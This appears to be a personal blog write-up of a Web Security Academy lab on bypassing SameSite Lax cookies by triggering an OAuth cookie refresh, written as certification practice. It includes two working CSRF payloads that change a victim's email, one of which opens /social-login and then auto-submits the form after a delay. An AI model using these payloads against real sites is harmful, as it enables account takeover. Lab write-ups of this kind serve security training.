 ```yaml
---
layout: post
title:  "SameSite Lax bypass via cookie refresh"
date:   2024-10-03 09:39:54 +0530
categories: [BSCP, CSRF]
---
```


## Objective 

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

The lab supports OAuth-based login. You can log in via your social media account with the following credentials: `wiener:peter` 

## Solution 

We have a particular SSO login now where when you click on the `My Account` page it redirects back to a `SSO login page` and you can login with credential like `wiener:peter`

Once after entering the credentials and click on `Login` and you need to authorize this application 

![]({{ site.baseurl }}/assets/images/csrf-22.png)

Once after login as fast as I can in less than `120 seconds` and executed the following CSRF POC 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

And it works, I can able to change the mail ID just like what we saw in the previous lab on `Same site lax method override`

But you remember when you click on `My Account` it automatically redirects and initiates a Oauth flow right and for that reason, let's fine tune our payload to initiate a request to `/social-login` endpoint and then wait for 5 seconds and it will reinitiate a `Update email` request 

```html
<form method="POST" action="https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://0a5c0087037bb1f6808ab2d8009900d0.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

Now I've submitted the payload on to the exploit server and then stored it, then deliver it to victim.. which solves our lab 

![]({{ site.baseurl }}/assets/images/csrf-23.png)